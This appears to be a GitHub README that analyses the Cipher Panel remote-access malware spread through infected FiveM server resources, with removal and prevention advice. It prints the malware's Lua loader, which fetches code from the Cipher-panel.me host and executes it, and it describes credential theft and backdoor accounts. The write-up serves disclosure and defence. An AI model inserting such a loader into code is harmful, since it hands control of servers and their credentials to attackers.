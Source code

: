 # Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://Cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the fivem server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of Cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How To Remove Cipher

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will will slow them down however we’ve seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts` and add.

```
0.0.0.0 Cipher-panel.me 
0.0.0.0 Ciphercheats.com
0.0.0.0 dark-utilities.xyz
```

Install an antivirus software on the host machine to scan for any backdoors / rats. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your fivem server is turned off, use the provided python script to install a nullifier which will help prevent future infections of Cipher and tell you what files are infected. 
 
You can also install this code manually however we expect Cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by Cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. It's a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for [ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org) [QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing into a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of Cipher, we suggest canceling your subscriptions and getting a refund.
